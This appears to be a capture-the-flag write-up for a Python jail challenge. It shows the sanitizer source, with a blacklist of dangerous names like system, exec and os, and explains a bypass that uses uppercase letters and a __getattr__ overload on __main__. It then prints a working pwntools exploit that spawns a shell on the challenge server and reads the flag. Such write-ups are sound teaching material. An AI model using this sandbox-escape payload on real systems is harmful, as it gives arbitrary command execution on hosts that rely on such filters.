 # SSPJ (Super Secure Python Jail)

**CTF:** Srdnlen CTF 2024  

**Category:** Misc / PyJail

**Difficulty:** Medium

**Solves:** 52

**Author:** [@uNickz](https://github.com/uNickz) (Nicholas Meli)

---

## Description

> This SSPJ (Super Secure Python Jail) will drive you crazy!!
> 
> This is a remote challenge, you can connect to the service with: `nc sspj.challs.srdnlen.it 1717`

---

## Overview

<details>
<summary>Challenge Source Code</summary>

```py
import random

class SSPJ(object):
    def __init__(self):
        print("Welcome to the Super Secure Python Jail (SSPJ)!")
        print("You can run your code here, but be careful not to break the rules...")

        self.code = self.code_sanitizer(input("Enter your data: "))

        # I'm so confident in my SSPJ that 
        # I don't even need to delete any globals/builtins
        exec(self.code, globals())
        return

    def code_sanitizer(self, code: str) -> str:
        if not code.isascii():
            print("Alien material detected... Exiting.")
            exit()

        banned_chars = [
            # Why do you need these characters?
            "m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k"
        ]

        banned_digits = [
            # Why do you need these digits?
            "0", "7", "1"
        ]

        banned_symbols = [
            # You don't need these...
            ".", "(", "'", "=", "{", ":", "@", '"', "[", "`"
        ]

        banned_words = [
            # Oh no, you can't use these words!
            "globals", "breakpoint", "locals", "self", "system", "open",
            "eval", "import", "exec", "flag", "os", "subprocess", "input",
            "random", "builtins", "code_sanitizer"
        ]

        blacklist = banned_chars + banned_digits + banned_symbols + banned_words
        random.shuffle(blacklist)

        if any(map(lambda c: c in code, blacklist)):
            print("Are you trying to cheat me!? Emergency exit in progress.")
            exit()

        return code.lower()

if __name__ == "__main__":
    SSPJ()
```
</details>
<br />

Upon careful analysis, we can immediately observe several limitations placed on nearly all symbols, certain numbers, and specific letters and words.

- It is clear that the `code_sanitizer()` function normalizes all characters to lowercase using `code.lower()` before returning the code. This behavior allows us to bypass the character and word checks by utilizing the UPPERCASE equivalents of the restricted characters.

- Furthermore, while the available options are limited due to the absence of most symbols, one notable exception is the ability to freely use imports. This flexibility introduces the core vulnerability of the challenge.

---

## Exploitation

The key to exploiting this vulnerability lies in understanding how Python handles module imports.

### Importing a module: `from package import module`

When using the statement `from package import module`, Python follows a specific sequence of operations to locate and load the requested module. Below is the detailed process.

---

### Package Search

Python searches for the package (`package`) among the directories specified in `sys.path`, a list that contains the paths where Python looks for modules. These include:
- **The current directory** (if you're running a script).
- **System-specific directories**, such as those where Python is installed (e.g., `site-packages`).
- **Manually added paths** via operations like `sys.path.append()` or environment variables.

---

### Module Search

Once the package is located, Python searches for the requested module within the package. The module can be:
- **A Python file** (`module.py`).
- **A native module** written in C or a dynamic extension (e.g., `.so` on Unix systems or `.pyd` on Windows).
- **A subdirectory** (`module/`) containing an `__init__.py` file (which defines it as a module).

If Python doesn't find a match, it raises an `ImportError`.

---

### Module Loading

Once found, Python loads the module based on the following scenarios:
- **`.py` File**: It is compiled into bytecode (`.pyc` file) and then executed. If the `.pyc` file exists and is up to date, Python uses it directly.
- **C Module or Dynamic Extension**: It is loaded into memory via dynamic linking mechanisms.
- **Subdirectory with `__init__.py`**: The `__init__.py` file is executed to initialize the module, and the search process can continue recursively.

---

### Namespace Insertion

Once loaded, the module is added to the current context:
- With `from package import module`, Python directly imports `module` into the current namespace.
- This means you can access `module` without needing to refer to `package.module`.

---

### Module Caching in `sys.modules`

Python maintains a dictionary as a cache of all loaded modules in `sys.modules`. This system prevents repeatedly reloading the same modules, improving performance:
- When a module is requested, Python first checks `sys.modules`.
- If the module is already present, it uses the cached version without redoing the search, compilation, or loading.

---

### The `__main__` Module

The `__main__` module is special:
- When you run a Python script, its contents are immediately loaded and added to `sys.modules`.
- Each time you import from `__main__`, Python looks for the content in `sys.modules["__main__"]`.

---

### The `__getattr__` Function

The `from __main__ import something` directive can be manipulated to exploit the overloading of `__getattr__`:
- When you attempt to import a non-existent attribute from a module, Python calls the magic method `__getattr__` defined in the module itself via `sys.modules["__main__"].__getattr__("something")`.
- This behavior can be abused to execute arbitrary code.

---

## Solution

In our case, we overload the `__getattr__` function with the `system` function from the `os` module. By doing so, importing any string from the `__main__` module will result in the string being passed as an argument to the `system` function.

### Payload
```python
from os import system as __getattr__; from __main__ import sh
```

### Exploit

```py
#!/usr/bin/env python3

from pwn import *

io = remote("sspj.challs.srdnlen.it", 1717)

payload = "from os import system as __getattr__; from __main__ import sh"

# Bypass blacklist
for c in ["m", "o", "w", "q", "b", "y", "u", "h", "c", "v", "z", "x", "k", "g"]:
    if c in payload:
        payload = payload.replace(c, c.upper())

io.sendline(payload.encode())
time.sleep(1)
io.sendline(b"cat flag-*.txt")

io.interactive()
io.close()
```

## Flag

```
srdnlen{Cr4zY_Us3_0f_G3t4tTr_1n_PyTh0n_1nT3rN4lS}
```